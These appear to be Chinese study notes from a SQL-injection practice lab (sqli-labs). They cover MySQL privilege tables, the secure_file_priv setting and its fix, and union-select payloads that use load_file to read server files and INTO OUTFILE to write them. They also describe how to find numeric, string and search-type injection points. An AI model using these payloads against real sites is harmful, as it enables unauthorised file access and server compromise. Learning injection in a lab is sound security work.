 `mysql`中存在4个有关权限控制的表，分别是user表，db表，tables_priv表，columns_priv表

`select * from user where user='test' and host='ipaddress' \G` 使用此命令查看test用户的数据库操作权限

`grant all privleges on *.* to 'test'@'localhost' with grant option;` 使用此命令可将普通用户test提升至管理员权限

`drop user test@'localhost' ` 删除test用户



-   查找当前数据库在系统中的读写权限

    ` show global variables like '%secure%';`

    ![image-20221210144001471](https://raw.githubusercontent.com/r0o983/images/main/image-20221210144001471.png)

​	如果secure_file_priv后的value显示为空，则代表可以读取系统中的任意文件

-   修复方案
    -   可在配置文件中进行指定路径读取与写入,配置文件路径为：`/etc/mysql/my.cnf`,在文件中添加`secure_file_priv = ''`字段，后跟具体的路径即可
    -   操作之后可以通过`pkill mysqld `将进行杀死后重启`mysql`，也可以通过`service mysql restart`来重启Mysql，但是不建议使用重启的方式（因为我试了好几次都没成功，都未能重新加载配置文件)
-   高权限读取系统内容：
    -   `http://192.168.0.68:8080/Less-2/?id=-3 union select 1,load_file('/etc/lib/mysql-files/abc'),3`当前命令可读取在`etc/lib/mysql-files`文件夹下的abc文件。
-   高权限写入系统内容:
    -   使用函数`into outfile`可将多行文本写入文件，并按格式进行输出，使用函数`into dumpfile`只可写入一行文本，切没有输出格式，使用`outfile`后不能接0x开头或者char转换之后的路径，只可使用单引号路径
    -   `http://192.168.0.68:8080/Less-2/?id=-1 union select 1,'写入内容',3 into openfile 'etc/lib/mysql-files/aabcd'--+` 
    -   Tips: 最后使用的`--+`是为了注释掉之后的SQL语句，使之不报错，需要写入的文件在写入之前是不能存在的，也就是说，需要在这里创建一个新的文件并进行写入，无法进行覆盖写入





## SQL注入类型

1.   数字型注入点
     -   判断SQL注入点，添加后缀参数进行测试，使用and符号来进行测试
     -   `$id = $_GET(id)`
     -   `$sql = 'select * from users where id = 1 and 1 = 1 limit 0,1'`
     -   将and的判断条件置为假`and 1=2` ,查看是否有返回报错信息，如果有报错信息，则可能存在SQL注入漏洞
2.   字符型注入点
     -   `$sql = 'select * from users where id ='1' and 1 = 1 limit 0,1'`
     -   在提交参数处增加一个单引号，将当前的SQL语句进行闭合，引导系统出现语法错误信息，
3.   搜索型注入点
     -   使用`like`来进行模糊查询，在输入框处进行
     -   使用百分号`%`来进行提前把SQL语句进行闭合
     -   `select * from user where like '%y%' or 1=1#%'`
     -   使用`%'` 闭合SQL语句
     -   使用`#`将当前SQL语句的后半部分给注释掉，相当于`--+`是一个意思
     -   And 1=1 条件两边都为真，or任意满足一个条件即可。
4.   XXX注入型
     -   常见的闭合符号`' " ( { `

